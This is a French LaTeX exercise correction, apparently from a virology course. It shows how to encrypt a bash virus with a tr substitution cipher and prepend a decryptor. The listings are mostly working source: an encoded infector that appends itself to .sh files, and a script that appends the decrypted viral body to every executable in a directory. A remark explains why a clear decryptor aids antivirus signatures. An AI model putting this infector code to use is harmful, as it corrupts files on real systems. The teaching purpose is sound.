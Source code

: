 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Correction}
\theoremstyle{definition}
\begin{document}
\begin{correction}
\begin{enumerate}
\item
Nous effectuons les substitutions avec la commande tr: le petit script ci-dessous effectue une subsitution du fichier \texttt{\$1} encod\'ee dans \texttt{tab1}
\begin{lstlisting}
tab0="abcdefghijklmnopqrstuvwxyz"
tab1="hijabcdefgmnopqrstuvwxyzkl"

#cat $1 | tr  ["$tab1"] ["$tab0"] > fichier-$$.txt
cat $1 | tr  ["$tab0"] ["$tab1"] > fichier-$$.txt
\end{lstlisting}

\item  Nous appliquons cette technique pour améliorer le virus \texttt{vbashp.sh} chiffré par substitution, en le précédant d'un code de restauration.
\begin{lstlisting}[language={}]
#!/bin/bash

tab0="abcdefghijklmnopqrstuvwxyz"
tab1="hijabcdefgmnopqrstuvwxyzkl"

tail -n 11  $0 | tr  ["$tab1"] ["$tab0"] > fichier-$$.sh
#cat $1 | tr  ["$tab0"] ["$tab1"] > fichier-$$.txt
chmod u+x fichier-$$.sh
#./fichier-$$.sh # partie a decommenter si l'on veut une recopie
exit 0

#!/ifp/ihue

bjeq "jqab eqvb"

cqt f fp *.ue;
 aq # rqwt vqwu nbu cfjefbtu hxbj n'bzvbpufqp ue
fc vbuv  "./$f" != "$0";
   vebp # uf jfinb != cfjefbt fpcbjvhpv bp jqwtu
   vhfn -p 9 $0  >> $f; # hgqwv jqab aw xftwu
cf
aqpb
\end{lstlisting}

\begin{attention}
Le \textbf{décrypteur} (lignes 1-10) est en clair dans le fichier infecté. C'est le point faible de cette technique : un antivirus peut construire une signature à partir du code de déchiffrement, même si le code viral lui-même change à chaque infection.
\end{attention}

\item Le code suivant repond à la question

\begin{lstlisting}
#!/bin/bash

tab0="abcdefghijklmnopqrstuvwxyz"
tab1="haigbcevrfwnyopjmqdstuxzkl"

#Overwritter I
for file in *; do #pour tout fichier
    if [ -x $file -a "$0" != "./$file" -a "$name" != "./$file" ]; then
	echo "infection de $file par ajout de partie virale chiffree"
        #On ajoute la partie firale chiffree
	tail -n 11  $0 | tr  ["$tab1"] ["$tab0"] >> $file
    fi
done
\end{lstlisting}



\end{enumerate}
\end{correction}
\end{document}
